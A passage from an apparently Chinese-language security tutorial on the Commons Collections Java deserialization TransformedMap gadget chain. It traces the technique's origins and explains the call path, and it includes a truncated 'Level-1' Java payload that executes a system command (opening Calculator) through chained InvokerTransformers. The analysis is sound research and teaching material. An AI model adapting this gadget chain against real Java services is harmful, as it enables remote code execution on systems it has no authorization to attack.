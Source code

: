 > 既然ysoserial中没有用到TransformedMap，那么TransformedMap究竟是谁最先提出来的呢？ 据我的考证，最早讲到TransformedMap应该是Code White的这篇Slide：Exploiting Deserialization Vulnerabilities in Java，后来长亭科技的博客文章《Lib之过？Java反序列化漏洞 通用利用分析》对此进行了进一步分析，后来才在国内众多文章中被讲到。

其漏洞利用差别在于执行 `transform` 的不同

相同的是均无法解决 CommonCollections1 这条利用链在高版本Java（8u71以后）中的使用问题

## TransformedMap Gadget chain

利用链是 TransformedMap ，先对我们之前 level-0 的 payload 进行一个升级，同样是最基础的命令执行，但是不直接使用 ChainedTransformer 的 transform 方法触发，而改用 TransformedMap 的方法

首先 TransformedMap 中有这三个类调用了 transform 方法，但都是 protected 方法，因此需要找到间接调用它们的方法

![](Commons-Collections-反序列化利用链分析/image-20210210004211853.png)

下面两个方法间接调用了  transformKey 和 transformValue 两个方法，且都是 public 方法（checkSetValue 方法后文再提）

![](Commons-Collections-反序列化利用链分析/image-20210210004917701.png)

**Level-1 payload**

```java
public class CommandDemo {
    public static void main(String[] args) {
        ChainedTransformer chainDemo = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{ ("open -a Calculator")})});
        TransformedMap outerMap = (TransformedMap) TransformedMap.decorate(new HashMap<String, String>(), null, chainDemo);
```